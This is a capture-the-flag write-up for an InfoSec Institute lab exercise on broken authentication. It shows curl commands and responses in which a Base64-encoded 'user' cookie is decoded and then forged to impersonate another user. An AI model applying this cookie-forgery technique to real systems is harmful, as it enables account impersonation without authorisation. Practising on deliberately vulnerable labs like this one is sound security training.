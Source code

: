 # A2 Broken Authentication and Session Management

1.	The hint *It seems you were automatically logged in* suggests us that
	something is (or should be) stored at client side. Let's try to take a look
	in the cookies

		$ curl -i http://ctf.infosecinstitute.com/ctf2/exercises/ex9.php
		HTTP/1.1 200 OK
		Date: Tue, 15 Sep 2015 08:40:18 GMT
		Server: Apache/2.4.7 (Ubuntu)
		X-Powered-By: PHP/5.5.9-1ubuntu4.6
		Set-Cookie: PHPSESSID=d309chl30f9toku705pl0s5gh5; path=/
		Expires: Thu, 19 Nov 1981 08:52:00 GMT
		Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
		Pragma: no-cache
		Set-Cookie: user=Sk9ITitET0U%3D; expires=Tue, 15-Sep-2015 09:40:18 GMT; Max-Age=3600; path=/; httponly
		Vary: Accept-Encoding
		Content-Length: 4701
		Content-Type: text/html

		<!doctype html>
		<html lang="en">
			<head>

		[...]

2.	What about `user=Sk9ITitET0U%3D`? It seems to be a Base64 string. Let's try
	to decode it

		$ echo "Sk9ITitET0U=" | openssl base64 -d
		JOHN+DOE

	Yep!

3.	We need to impersonate **Mary Jane**, so the cookie value should be

		$ echo -n "MARY+JANE" | openssl base64 -e
		TUFSWStKQU5F

4.	Let's try if everything works...

		$ curl -i --cookie "user=TUFSWStKQU5F" http://ctf.infosecinstitute.com/ctf2/exercises/ex9.php
		HTTP/1.1 200 OK
		Date: Tue, 15 Sep 2015 08:46:20 GMT
		Server: Apache/2.4.7 (Ubuntu)
		X-Powered-By: PHP/5.5.9-1ubuntu4.6

		[...]

			<h2 class="text-center">Hello, Mary Jane.</h2>
			<table class="table table-responsive table-striped">
				<tr>
					<th>Name</th>
					<th>Age</th>
					<th>Nationality</th>
				</tr>
				<tr>
						<td>Mary Jane</td>
						<td>18</td>
						<td>American</td>
				</tr>
			</table>.

		[...]

			   <p class="lead">Oh yeah, you actually made it! You know the drill.</p>

		[...]

	Nice! :-D


[Go to Ex8](./ex8.md) | [Go to Ex10](./ex10.md)

